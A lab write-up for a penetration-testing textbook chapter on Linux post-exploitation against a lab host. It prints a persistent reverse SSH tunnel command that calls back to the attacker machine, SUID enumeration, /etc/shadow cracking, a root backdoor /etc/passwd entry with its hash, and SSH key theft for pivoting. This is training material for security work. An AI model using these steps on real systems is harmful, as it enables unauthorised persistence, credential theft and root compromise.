# Chapter 9 — Linux and UNIX Post-Exploitation
### Companion Lab Report: *The Art of Network Penetration Testing* (Royce Davis, Manning Publications, 2020)

| | |
|---|---|
| **Author** | Iliya Dehghani |
| **Source Lab** | Lab 5 |
| **Lab Environment** | Capsulecorp (VMware Workstation 17 Pro) |
| **Report Type** | Chapter walkthrough / technical lab report |

---

## 1. Objective

Chapter 9 applies the three universal post-exploitation objectives — reliable re-entry, credential harvesting, and lateral movement — to a compromised Linux/UNIX host (Piccolo). The techniques differ from the Windows-focused Chapter 8, but the strategic goals are identical. This report documents SSH-based persistence, credential harvesting from dot files and `/etc/shadow`, SUID-based privilege escalation, and SSH key theft for pivoting to additional hosts.

## 2. Tools Used

| Tool | Purpose |
|---|---|
| `ssh-keygen` / `scp` / `ssh` | Building a key-based reverse SSH tunnel for persistence |
| `systemd` (service unit) | Maintaining the reverse SSH tunnel across reboots, replacing a failed cron-based approach |
| `find` | Locating SUID binaries |
| `openssl passwd` | Generating a password hash for a backdoor `/etc/passwd` entry |
| John the Ripper | Cracking `/etc/shadow` hashes |
| Metasploit SSH Public Key Login Scanner | Testing a stolen SSH private key against multiple hosts |

## 3. Methodology and Walkthrough

### 3.1 Post-Exploitation Goals Apply Across Operating Systems

The three post-exploitation objectives — persistence, credential harvesting, lateral movement — apply universally; what changes between Windows and Linux/UNIX is technique, not purpose. A competent tester operates without OS bias, whether the target is FreeBSD, CentOS, or macOS.


*Figure 9.1 — Tiered overview of the three post-exploitation objectives, reproduced from [1].*

### 3.2 Maintaining Reliable Re-Entry with Cron Jobs

While `exploit/linux/local/service_persistence` in Metasploit offers built-in persistence, a "living-off-the-land" approach — using only pre-existing OS utilities — minimizes the attack footprint and reduces the chance of triggering EDR. Cron, Linux's native task scheduler, is well suited to this: a crontab entry can trigger a reverse callback at defined intervals, surviving reboots without manual intervention. SSH (rather than a raw reverse shell) is recommended for this callback, since encrypted transport and key-based authentication limit exposure if the key is later discovered.


*Figure 9.2 — End-to-end process: key generation, key transfer, tunnel script, and scheduled execution, reproduced from [1].*

#### 3.2.1 Creating an SSH Key Pair

A dedicated SSH key pair was generated on the compromised host (`ssh-keygen -t rsa`, RSA algorithm) from the root user's `.ssh` directory.


*Figure 9.3 — SSH key pair generation on Piccolo.*

The public key was then transferred to the attacking machine's `authorized_keys` file via `scp`.


*Figure 9.4 — Public key transferred from the compromised host to the attacking machine.*

#### 3.2.2 Enabling Pubkey Authentication

`PubkeyAuthentication` was uncommented in `/etc/ssh/sshd_config` on the attacking machine and the SSH service restarted.


*Figure 9.5 — `sshd_config` modified to enable key-based authentication.*

Connectivity was then verified from the compromised host using `ssh idehghani@10.0.10.250 -i lab5_reverse`, confirming passwordless authentication:


*Figure 9.6 — Key-based authentication verified without a password prompt.*

#### 3.2.3 Tunneling Through SSH

An SSH tunnel exposes the victim's local SSH service on a chosen port of the attacking machine, using native port-forwarding to create a persistent, encrypted bidirectional channel:

```
ssh -N -R 54321:localhost:22 idehghani@10.0.10.250 -i ./lab5_reverse
```


*Figure 9.7 — Victim port 22 forwarded to port 54321 on the attacking machine, reproduced from [1].*

`-N` prevents remote command execution (forwarding-only), and `-R 54321:localhost:22` tunnels the victim's local port 22 to port 54321 on the attacker. The command appeared to stall with no output — expected behavior for a forwarding-only connection.


*Figure 9.8 — Confirming the tunnel is active via `netstat -ant | grep -i listen`.*


*Figure 9.9 — Reverse tunnel command running on the compromised host.*

With the tunnel confirmed active, re-authentication to the compromised host was performed through the forwarded port.


*Figure 9.10 — Successful connection to Piccolo via the forwarded SSH tunnel port.*

#### 3.2.4 Automating an SSH Tunnel with Cron

`callback.sh` (containing a `createTunnel` function that checks for an existing SSH process via `/bin/pidof` before creating a new tunnel, avoiding duplicates) was intended to be scheduled via crontab for full automation.


*Figure 9.11 — `callback.sh`, designed to avoid duplicate tunnel instances.*

The cron-based approach encountered compatibility issues on the Ubuntu target. As a resolution, a **systemd service** was configured instead, restricted to `multi-user.target` to guarantee automatic startup and reliable callback restoration on boot — running:

```
ssh -N -R 54321:localhost:22 callbackuser@10.0.10.250 -i /root/.ssh/pentestkey
```

### 3.3 Harvesting Credentials

#### 3.3.1 Harvesting Credentials from Bash History

Linux/UNIX systems store user configuration in hidden "dot files," visible only with `ls -la`.


*Figure 9.12 — Dot files enumerated in the compromised user's home directory.*

`.bash_history` records every command executed at the prompt, and is a well-known repository of plaintext credentials — users routinely mistype passwords at the prompt, and utilities like `mysql` and `ldapquery` accept credentials as inline arguments that get permanently logged.


*Figure 9.13 — Bash history revealing domain-join commands and account details relevant to lateral movement.*

#### 3.3.2 Harvesting Password Hashes

Local account password hashes on Linux/UNIX live in `/etc/shadow` (root-only access). Unlike Windows, Pass-the-Hash is not viable against Linux targets, limiting the immediate utility of these hashes to offline cracking — a last resort given time constraints on most engagements. `/etc/shadow` was copied from Piccolo to the attacking machine and processed with John the Ripper.


*Figure 9.14 — Cracked local credential `user:P@ssw0rd`, confirming weak passwords remain exploitable even when only the hash is available.*

### 3.4 Escalating Privileges with SUID Binaries

The **SUID** (Set User ID) permission bit causes a binary to execute with its owner's privileges rather than the calling user's — necessary for utilities like `/usr/bin/passwd`, which must modify protected system files on behalf of non-root users.


*Figure 9.15 — `/bin/ls` (standard `x`) contrasted with `/usr/bin/passwd` (SUID `s`), reproduced from [1].*

A SUID binary owned by root that can be manipulated by a non-privileged user provides a direct path to root access — a well-documented class of privilege-escalation vulnerability.

#### 3.4.1 Locating SUID Binaries with `find`

```
find / -perm -u=s 2>/dev/null
```


*Figure 9.16 — SUID binaries enumerated on Piccolo, including the non-default `/usr/bin/vmware-user-suid-wrapper`.*

A separate check confirmed `/bin/cp` also carried the SUID bit — a non-default and especially significant finding, since a SUID `cp` can read or write protected system files without restriction, directly enabling privilege escalation.

#### 3.4.2 Inserting a New User into `/etc/passwd`

With `/bin/cp` SUID-enabled, a modified `/etc/passwd` file — containing a new backdoor account — could be written over the live file as root. `openssl passwd` generated a hash for the new account, appended in the standard seven-field format:

| Position | Component | Example |
|---|---|---|
| 1 | Username | pentest |
| 2 | Encrypted/hashed password | `$1$pentest$NPv8jf8/11WqNhXAriGwa.` |
| 3 | User ID | 0 |
| 4 | Group ID | 0 |
| 5 | Full name | root |
| 6 | Home directory | /root |
| 7 | Default login shell | /bin/bash |

*Table 9.1 — The seven components of an `/etc/passwd` entry, reproduced from [1].*

Setting UID/GID to 0 and the home directory to `/root` grants the backdoor account full root privileges.


*Figure 9.17 — Backdoor entry constructed for insertion into `/etc/passwd`.*

`/bin/cp` was then used to overwrite the live `/etc/passwd`, and `su pentest` followed by `id -a` confirmed the result:


*Figure 9.18 — `id -a` confirming `uid=0 (root)` — complete root access achieved via a single misconfigured SUID binary.*

### 3.5 Passing Around SSH Keys

A compromised Linux/UNIX host — even without root — can serve as a pivot point via stolen SSH private keys, typically found in `~/.ssh`. Any discovered keys should be transferred to the attacker workstation and tested against the SSH target list using tools like Metasploit or NXC, potentially yielding direct root access on a level-two host if the key belongs to a privileged user elsewhere.

#### 3.5.1 Stealing Keys from a Compromised Host

The root user's `~/.ssh` directory on a Capsulecorp host contained a private/public key pair, `pentestkey` and `pentestkey.pub`.


*Figure 9.19 — Private and public SSH key files identified in `~/.ssh`.*

#### 3.5.2 Scanning Multiple Targets with Metasploit

The private key was copied out via `cat` and transferred to the attacker's machine (a dedicated screenshot of the key contents was not captured during the engagement).

Metasploit's SSH Public Key Login Scanner was used to test the key against the full Capsulecorp scope.


*Figure 9.20 — No successful authentications in this scope, though the technique remains valuable at scale where administrative SSH keys are commonly shared.*

## 4. Findings / Observations

| # | Finding | Severity | Affected Host |
|---|---|---|---|
| 1 | Weak local account password crackable from `/etc/shadow` (`user:P@ssw0rd`) | High | Piccolo |
| 2 | Non-standard SUID binary (`/bin/cp`) permits trivial root escalation | Critical | Piccolo |
| 3 | Plaintext credentials/domain details recoverable from `.bash_history` | Medium | Piccolo |
| 4 | Systemd-based reverse SSH tunnel provides durable, low-noise persistence | Informational (attacker technique) | Piccolo |

## 5. Conclusion

Chapter 9 demonstrated that Linux/UNIX post-exploitation follows the same strategic arc as Windows post-exploitation, just through different mechanisms — SSH tunnels instead of Meterpreter persistence, `/etc/shadow` instead of SAM, and SUID misconfigurations instead of token impersonation. The single non-standard SUID binary discovered on Piccolo (`/bin/cp`) was sufficient on its own to escalate from an unprivileged shell to full root access, underscoring how a small misconfiguration can have an outsized security impact. The root access and harvested SSH key obtained here set up the domain-wide compromise documented in Chapter 10.

## 6. References

[1] R. Davis, *The Art of Network Penetration Testing*, Manning Publications, 2020.
